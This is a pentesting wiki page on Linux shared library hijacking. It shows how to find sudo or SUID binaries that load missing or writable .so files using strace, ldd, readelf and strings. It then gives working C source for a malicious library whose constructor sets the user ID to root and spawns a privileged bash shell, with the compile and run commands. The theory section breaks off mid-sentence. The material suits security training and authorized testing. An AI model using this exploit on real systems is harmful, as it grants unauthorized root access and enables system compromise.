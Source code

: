 # Shared Library Hijacking

## Theory 

Shared libraries are libraries that are loaded by programs when they start. If 

## Practice 

{% tabs %}
{% tab title="Enumerate" %}
If you find some binary with **SUDO** permissions, you could check if all the **.so** files are **loaded correctly**

```bash
strace the-sudo-bin 2>&1 | grep -i -E "open|access|no such file"
```

You also could check if the **SUID** binary is loading a library from a folder **where we can write**:

```bash
# Lets find a SUID using a non-standard library
ldd the-sudo-bin
something.so => /lib/x86_64-linux-gnu/something.so

# The SUID also loads libraries from a custom location where we can write
readelf -d the-sudo-bin | grep PATH
0x000000000000001d (RUNPATH)            Library runpath: [/development]
```

Alternatilvly, you can use the `strings` command
```bash
strings ./the-sudo-bin | grep -i '*.so*'
```
{% endtab %}

{% tab title="Exploit" %}
For example, if you find that the **sudo** binary **doesn't** **load correctly** _`/home/user/.config/libcalc.so`_ or that you can overwrite it, you can exploit it.

Write a malicious shared library

```c
//Saved to /home/user/.config/libcalc.c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

Compile it
```bash
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
```

Execute the **SUDO** binary
```bash
sudo the-sudo-bin
```

{% hint style="info" %}
If you get an error such as

```shell-session
./the-sudo-bin: symbol lookup error: ./the-sudo-bin: undefined symbol: a_function_name
```

that means that the library you have generated need to have a function called `a_function_name`.
{% endhint %}
{% endtab %}
{% endtabs %}